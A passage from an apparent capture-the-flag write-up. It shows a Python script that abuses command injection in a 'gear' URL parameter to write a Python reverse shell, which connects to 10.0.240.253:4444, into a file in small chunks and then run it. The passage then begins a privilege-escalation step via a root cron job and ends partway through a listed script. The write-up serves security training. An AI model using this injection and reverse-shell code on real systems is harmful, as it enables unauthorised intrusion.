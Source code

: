 If we choose a filename with one character, it will automatically append ``.txt``, so we don't need to worry about the file extension. This allows us to write 6 characters at a time. For convenience I wrote a script to do it:
```py
import requests

url = "http://op-i-gear.hkn/?gear="

def send_file(content, file):
    payload = f";echo -n \"{content}\">>{file}"
    req = requests.get(url + payload)
    print(f"File {file} with {content}")
    print(req.status_code)

exploit = "import os,pty,socket;s=socket.socket();s.connect(('10.0.240.253',4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn('/bin/sh')"

file_name = "t"

chunks = [exploit[i:i+6] for i in range(0, len(exploit), 6)]

for chunk in chunks:
    send_file(chunk, file_name)

print(f"Finished sending {exploit} to {file_name}")
```

This writes a python reverse shell into the file ``t.txt``. We can then execute it to get a reverse shell with ``; python3 t`` (note that the extension will automatically be appended).

By executing this we will have a shell as ``www-data``. For the privesc we have a few hints from the Dockerfile given:
```dockerfile
<...SNIP...>
# Set up scripts directory
RUN mkdir -p /opt/scripts/ && chmod 755 /opt/scripts/ && chown root:root /opt/scripts/
COPY osinfo.py /opt/scripts/osinfo.py
RUN chmod 755 /opt/scripts/osinfo.py

# Set environment variables
RUN echo "PYTHONUSERBASE=/tmp" >> /etc/environment

# Set up cron job
RUN printf "* * * * * root /usr/bin/python3 /opt/scripts/osinfo.py\n" > /etc/cron.d/python-cron && chmod 0644 /etc/cron.d/python-cron

# Create the flag file
RUN FILENAME=$(openssl rand -hex 12).txt && echo "DDC{eksempel}" > /root/$FILENAME
<...SNIP...>
```

Here we can see that the file ``osinfo.py`` is running as a cronjob with root permissions every minute. The file can be seen here:
```py
#!/usr/bin/python3

import datetime
import platform
import random

DEBUG_FILE = "/tmp/osinfo.txt"

def write_debug_info():
    timestamp = datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S")
    random_debug_info = {
        "OS": platform.system(),
```